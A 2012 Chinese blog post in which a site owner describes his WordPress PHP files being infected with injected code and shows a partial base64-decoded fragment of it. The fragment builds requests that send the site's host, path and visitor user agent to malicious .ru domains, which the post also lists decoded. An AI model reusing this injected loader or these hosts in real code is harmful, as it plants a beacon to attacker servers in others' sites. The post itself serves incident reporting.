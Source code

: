 ```yaml
---
id: 1848
title: 博客被注入恶意代码
date: 2012-07-03T16:48:11+00:00
author: tanglei
layout: post
guid: http://www.tanglei.name/?p=1848
duoshuo_thread_id:
  - 1351844048792453409
enable_highlight:
  - '<link rel="stylesheet" href="../wp-content/blogresources/highlightconfig/highlight.default.min.css"><script src="../wp-content/blogresources/highlightconfig/jquery-2.1.4.min.js"></script><script src="../wp-content/blogresources/highlightconfig/enable_highlight.js"></script>'
categories:
  - 我做站长
  - 经验技巧
tags:
  - 入侵
  - 恶意代码
  - 旁注
  - 网络安全
---
```

这两天准备更新下本博客的评论，加上诸如评论啦、多说等插件，发现某些php文件貌似不太对劲。今天又收到了google的名为“Malware notification regarding tanglei.name”的邮件，再进博客后台，发现博客所有的php文件被感染，诸如下图一些加密代码。用chrome访问博客时也被拦截，提示“警告：此页面包含危险内容！**[www.tanglei.name](http://www.tanglei.name/)** 包含恶意软件。如果您访问此网站，您的计算机可能会中毒。……”

<p style="text-align: center;">
  <a href="/wp-content/uploads/2012/07/植入木马.jpg"><img class="aligncenter  wp-image-1849" title="植入木马" src="/wp-content/uploads/2012/07/植入木马.jpg" alt="网页包含恶意软件" width="640" height="331" data-pinit="registered" /></a>
</p>

再SSH进入主机，发现该主机下其他域名的所有的php文件都植入了这些代码。如图所示，我的i3zhai.com也中招了.

<p style="text-align: center;">
  <a href="/wp-content/uploads/2012/07/植入恶意代码.jpg"><img class="aligncenter  wp-image-1850" title="植入恶意代码" src="/wp-content/uploads/2012/07/植入恶意代码.jpg" alt="网页包含恶意软件" width="640" height="341" data-pinit="registered" /></a>
</p>

base64解码以上植入的恶意代码，发现以上恶意代码跟目标主机相关联的关键的几行代码:

```php
$_SERVER['s_p1']=$mz;  $_SERVER['s_b1']=$bot;  $_SERVER['s_t1']=1200;  $_SERVER['s_d1']=base64_decode('aHR0cDovL2VuczEyMnp6emRkYXp6LmNvbS8=');  $d='?d='.urlencode($_SERVER["HTTP_HOST"])."&p=".urlencode($_SERVER["PHP_SELF"])."&a=".urlencode($_SERVER["HTTP_USER_AGENT"]); 
$_SERVER['s_a1']=base64_decode('aHR0cDovL3BtZ2N6a2luZml1bS5ydS9nX2xvYWQucGhw').$d;  $_SERVER['s_a2']=base64_decode('aHR0cDovL2luZmlwbWcucnUvZ19sb2FkLnBocA==').$d;  
$_SERVER['s_script']="pmg.php?d=x";  
```

关键url还得base64解码，得到的url如下：

```php
http://pmgczkinfium.ru/g_load.php
http://infipmg.ru/g_load.php
http://ens122zzzddazz.com/ 
```

看来就是跟这些相关了。查了这几个url，发现也有其他站点中招了。
  
目前我能想到的解决方案就是写个脚本，在后台跑一下，把所有php中这些代码都删除掉。不过这个有风险啊，一是不知道后台允许我执行这样的脚本么，而是操作这些代码要是有个什么差错的话就惨了。目前联系了主机提供商，看看他们有什么解决方案。
  
暂且就不管了吧。如果你现在能看到这篇文章就是忽略浏览器的拦截了。呵呵。待解决……
